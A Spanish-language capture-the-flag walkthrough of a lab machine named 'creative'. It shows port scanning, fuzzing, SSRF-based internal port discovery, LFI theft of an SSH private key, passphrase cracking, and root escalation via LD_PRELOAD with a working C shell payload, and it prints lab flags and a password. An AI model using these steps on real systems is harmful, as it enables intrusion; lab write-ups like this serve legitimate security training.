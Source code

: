 
***1. Escaneo 

**como primer punto empezaremos con la fase de escaneo de puertos como herramienta utilizare la herramienta [[nmap]] 

```
nmap -p- --open -n -Pn -T4 --min-rate 8000 -sVC -sS <HOST> -oN <name> -vvv
```

**podemos ver que tenemos los puertos abiertos ``22/ssh`` y el ``80/http`` 

```
PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**ahora vamos a utilizar la herramienta ==whatwheb== haber si encontramos algo 

```
whatwheb <HOST>
```

**nos da error ya que tiene un dominio  , a el ingresar ==whatwheb== con el dominio igual no encontramos nada 

```
http://creative.thm [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@example.com,info@website.com], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.134.13], JQuery[3.4.1], Meta-Author[Devcrud], PasswordField, Script, Title[Creative Studio | Free Bootstrap 4.3.x template], YouTube, nginx[1.18.0]
```


**a el revidar el protocolo ``http`` podemos ver una pagina web 

![[creativo.png]]

**vamos a hacer enumeración de directorios ocultos con ``ffuf``

```
ffuf -u http://creative.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200
```

**solo encontré este directorio oculto ``assets`` y no veo nada mas ahora vamos a enumerar ==subdominios== 

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm -H "HOST:FUZZ.creative.thm" -fw 6

```

**y encontramos el subdomino ``beta`` , lo agregamos a el ``/etc/hosts`` y revisamos a ver y nos encontramos con una pagina de URL BETA   , puede que nos hallamos encontrado con un ``SSRF`` (Falsificación  del lado del servidor)

![[creativo2.png]]

**a el ingresar el ``http://127.0.0.1`` nos manda a la pagina de creativo , probaremos y ataque de fuerza bruta a puertos a ver si encontramos un servidor web interno con ``ffuf``

**primero vamos a agregar los ``65535`` a un archivo 

```
seq 65535 > puertos.txt
```

**luego vamos a hacer el ataque con ``ffuf``

```
ffuf  -w port.txt  -u http://beta.creative.thm  -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3    

```

**y como resultado tenemos 2 puertos 

```
80                      
1337 
```

**bien podemos ver que en el puerto ``1337`` contiene un servidor oculto y nos encontramos con LFI(inclusión de archivos locales)

![[creativo3.png]]

**y como resultado

![[creativo4.png]]

**vemos que tenemos un usuario llamado ``saad `` y nos permite ver su ``id_rsa``

![[creativo5.png]]


**parece que la llave privada nos pide password así que en este caso vamos a usar la herramienta ``ssh2john`` para generar el hash de la password de la llave

```
ssh2john id_rsa > password.txt
```

**luego vamos a usar ``john the ripper `` para crackear la password

```
john --wordlist==/usr/share/wordlists/rockyou.txt passwd.txt 

```

**y como resultado obtenemos la password de la llave ``sweetness  ``

**con eso ya podemos entrar a ssh con el usuario ``saad``


**una vez dentro obtener la primera flag ``9a1ce90a7653d74ab98630b47b8b4a84``

***2. escalada de privilegios 


**a el revisar el  ``.bash_history`` podemos encontrar la password de saad

```
saad:MyStrongestPasswordYet$4291
```

**ahora podemos usar el comando ``sudo -l`` y podemos ver que podemos escalar con ``env_keep+=LD_PRELOAD``

***1. nos pasamos a /tmp

**creamos un archivo en ``c`` y le agregamos este código
```
#include <stdio.h>
#include <sys/types.h> 
#include <stdlib.h> 
void _init() { unsetenv("LD_PRELOAD"); 
setgid(0); 
setuid(0); 
system("/bin/sh"); 
}
```

***2. lo compilamos 

```
gcc -fPIC -shared -o name.so name.c -nostartfiles
```

**verificamos que el ``name.so`` se creo correctamente 

```
ls -la name.so
```

**una vez creado correctamente lo ejecutamos con ``ping``

```
sudo LD_PRELOAD=/tmp/name.so ping
```

**listo hemos escalado nos movemos a la carpeta donde se encuentra la flag y la obtenemos ``992bfd94b90da48634aed182aae7b99f``

***y con esto concluimos la maquina creative

